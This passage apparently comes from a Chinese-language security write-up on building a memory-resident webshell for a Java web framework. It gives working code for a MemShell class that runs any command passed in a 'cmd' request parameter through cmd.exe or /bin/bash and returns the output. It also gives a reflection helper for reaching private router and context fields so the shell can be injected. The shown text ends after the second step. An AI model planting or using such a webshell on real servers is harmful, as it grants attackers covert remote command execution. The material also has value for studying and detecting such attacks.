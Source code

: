 综上，内存马构造如下：

第一步，先搞个恶意类：

```java
public static class MemShell{  
        public MemShell(){  
​  
        }  
        public  void pwn(){  
            Context ctx \= Context.current();  
            try{  
                if(ctx.param("cmd")!=null){  
                    String str \= ctx.param("cmd");  
                    try{  
                        String\[\] cmds \=  
                                System.getProperty("os.name").toLowerCase().contains("win") ? new String\[\]{"cmd.exe",  
                                        "/c", str} : new String\[\]{"/bin/bash", "-c", str};  
                        String output \= (new java.util.Scanner((new  
                                ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\\\A").next();  
                        ctx.output(output);  
                    }catch (Exception e) {  
                        e.printStackTrace();  
                    }  
                }  
            }catch (Throwable e){  
                ctx.output(e.getMessage());  
            }  
        }  
    }
```

第二步，获取到存储大量路径内容的RouterDefault，即前面的this.router ，还有获取AppContext

反射获取对象：

```java
public Object getfieldobj(Object obj, String fieldname) throws NoSuchFieldException, IllegalAccessException {  
        try{  
            Field field \= obj.getClass().getDeclaredField(fieldname);  
            field.setAccessible(true);  
            Object fieldobj \= field.get(obj);  
            return fieldobj;  
        }catch (NoSuchFieldException e) {  
            Field field \= obj.getClass().getSuperclass().getDeclaredField(fieldname);  
            field.setAccessible(true);  
            Object fieldobj \= field.get(obj);  
            return fieldobj;  
        }  
    }
```
